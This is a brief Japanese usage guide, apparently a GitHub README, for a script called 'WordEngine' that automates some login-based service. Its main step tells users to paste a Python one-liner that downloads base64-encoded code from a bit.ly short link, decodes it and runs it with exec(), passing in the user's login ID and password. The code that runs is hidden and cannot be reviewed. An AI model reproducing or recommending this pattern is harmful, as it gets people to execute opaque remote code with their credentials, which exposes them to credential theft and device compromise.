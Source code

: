 # USE GUIDE

## ・必要ライブラリ

`requests`

```cmd
pip install requests
```
## ・scriptの実行

Pythonista3やa-Shellなどを使ってコードを実行して下さい。
尚、ログインID,パスワード,実行回数は書き換えて下さい

```python
import requests as r, base64; exec(base64.b64decode(r.get('https://bit.ly/4e7FIhg').text).decode() + "\nWordEngine('your_loginid', 'your_password', run_num)")
```

## コードの説明
`your_loginid` = ログインID
`your_password` = パスワード
`run_num` = 実行回数

### [Pythonista3の場合]
consoleにコードを貼付

### [a-Shellの場合]
ターミナルにpythonと打ち、コードを貼付


注意事項
  •	自己責任でお願い致します。
  •	pythonが動くなら何でも○
